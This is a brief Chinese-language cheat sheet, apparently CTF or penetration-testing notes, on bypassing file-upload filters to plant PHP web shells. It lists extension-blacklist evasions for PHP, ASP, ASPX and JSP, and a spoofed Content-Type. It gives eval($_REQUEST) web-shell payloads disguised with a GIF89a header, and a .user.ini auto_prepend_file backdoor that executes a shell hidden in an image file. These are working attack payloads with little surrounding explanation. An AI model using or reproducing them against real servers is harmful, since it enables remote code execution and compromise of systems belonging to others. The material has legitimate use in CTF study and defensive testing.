 ## 上传常用木马
1. 序列化木马:
```php
<?php
class A{
	var $a = "<?php phpinfo()?>";
}
$aa = new A();
echo serialize($aa);
?>
```
1. Content-Type: image/jpeg
2. php,php3,php4,php5,phtml.pht
3. 扩展名绕过
Asp:asa cer cdx
Aspx:ashx asmx ascx
Php:php3 phptml
Jsp:jspx jspf
4. 
    ```
    <script language=php>system("ls")</script>
    ```
5. 
    ```
    GIF89a?
    <script language="php">eval($_REQUEST[shell])</script>
    ```

**resources**

[文件上传限制绕过原理以及方法总结](https://www.cnblogs.com/askta0/p/9190556.html#/c/subject/p/9190556.html)
### .htaccess
 .htaccess用于针对apache的

### .user.ini
考点: .user.ini后门
条件: 
- 服务器脚本语言为PHP
- 服务器使用CGI／FastCGI模式
- 上传目录下要有可执行的php文件

.user.ini
```
GIF89a
auto_prepend_file=a.jpg
```

a.jpg
```php
GIF89a
<script language="php">eval($_REQUEST[shell]);</script>
```
